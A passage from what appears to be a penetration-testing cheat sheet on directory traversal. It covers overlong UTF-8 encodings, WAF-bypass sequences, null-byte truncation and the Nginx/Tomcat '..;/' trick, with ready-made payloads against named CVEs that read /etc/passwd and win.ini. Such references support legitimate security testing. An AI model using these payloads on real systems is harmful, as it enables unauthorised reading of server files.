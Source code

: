 The UTF-8 standard mandates that each codepoint is encoded using the minimum number of bytes necessary to represent its significant bits. Any encoding that uses more bytes than required is referred to as "overlong" and is considered invalid under the UTF-8 specification. This rule ensures a one-to-one mapping between codepoints and their valid encodings, guaranteeing that each codepoint has a single, unique representation.

| Character | Encoded |
| --- | -------- |
| `.` | `%c0%2e`, `%e0%40%ae`, `%c0%ae` |
| `/` | `%c0%af`, `%e0%80%af`, `%c0%2f` |
| `\` | `%c0%5c`, `%c0%80%5c` |

### Mangled Path

Sometimes you encounter a WAF which remove the `../` characters from the strings, just duplicate them.

```powershell
..././
...\.\
```

**Example:**: Mirasys DVMS Workstation <=5.12.6

```ps1
{{BaseURL}}/.../.../.../.../.../.../.../.../.../windows/win.ini
```

### NULL Bytes

A null byte (`%00`), also known as a null character, is a special control character (0x00) in many programming languages and systems. It is often used as a string terminator in languages like C and C++. In directory traversal attacks, null bytes are used to manipulate or bypass server-side input validation mechanisms.

**Example:** Homematic CCU3 CVE-2019-9726

```js
{{BaseURL}}/.%00./.%00./etc/passwd
```

**Example:** Kyocera Printer d-COPIA253MF CVE-2020-23575

```js
{{BaseURL}}/wlmeng/../../../../../../../../../../../etc/passwd%00index.htm
```

### Reverse Proxy URL Implementation

Nginx treats `/..;/` as a directory while Tomcat treats it as it would treat `/../` which allows us to access arbitrary servlets.

```powershell
..;/
```
